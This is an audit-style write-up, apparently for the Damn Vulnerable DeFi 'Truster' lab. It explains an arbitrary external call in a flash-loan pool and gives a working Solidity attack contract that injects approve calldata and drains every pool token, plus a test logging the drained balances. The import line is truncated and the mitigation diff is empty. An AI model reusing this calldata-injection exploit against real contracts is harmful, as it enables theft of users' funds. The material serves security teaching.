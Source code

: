 ## Critical Severity Issues

### [C-1] Arbitrary External Call Injection `TrusterLenderPool::flashLoan`

**Description**: The `TrusterLenderPool` protocol provides flash loans to any one. The malicious user comes and takes the advantage of `target.functionCall(data)` and pass the data which under the hood calls the approve selector of the target token and flew away all the `DVT` tokens.

```javascript
function flashLoan(uint256 amount, address borrower, address target, bytes calldata data) external nonReentrant returns (bool) {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);

@>      target.functionCall(data);

        if (token.balanceOf(address(this)) < balanceBefore) {
            revert RepayFailed();
        }

        return true;
    }
```

**Impact**: Malicious user takes the advantage of external call and make a call data which under the hood approve all the target tokens of `TrusterLenderPool`.

Attack Contract:

```javascript

 {DamnValuableToken} from "../src/DamnValuableToken.sol";

contract Target {

    DamnValuableToken public token;
    TrusterLenderPool public pool;

    address public attacker;

    constructor(
        DamnValuableToken _token,
        TrusterLenderPool _pool,
        address _attacker
    ) {
        token = _token;
        pool = _pool;
        attacker = _attacker;
    }

    function attack() external {
     uint256 poolBalance = token.balanceOf(address(pool)); // 1 million DVTs
      
      pool.flashLoan( 0, address(this),address(token),
@>           abi.encodeWithSelector( token.approve.selector, address(this),  poolBalance)
        );

        // Drain the funds
        token.transferFrom(address(pool), attacker, poolBalance);
    }
}

```

**Proof of Concept**:

1. Attacker pass call data.
2. Which is `approve` selector for his self with all pool token.
3. Call flashLoan with `0` flash loan.
4. Transfer all the funds from pool
5. And Pool loss all funds

**Proof of Code**:

```javascript
function testStealAllPoolFunds() public {
        console2.log( "Pool balance before : ", token.balanceOf(address(trusterLenderPool))); // 1000000000000000000000000
        console2.log( "Attacker balance before : ", token.balanceOf(target.attacker())); // 0

        target.attack(); // attack

        console2.log("Pool balance After : ", token.balanceOf(address(trusterLenderPool))); // 0
        console2.log("Target balance After : ", token.balanceOf(target.attacker())); // 1000000000000000000000000
    }
```

**Recommended Mitigation**: Consider limiting the target calling contracts function selectors , that a specific call data can be passed only.

```diff

```
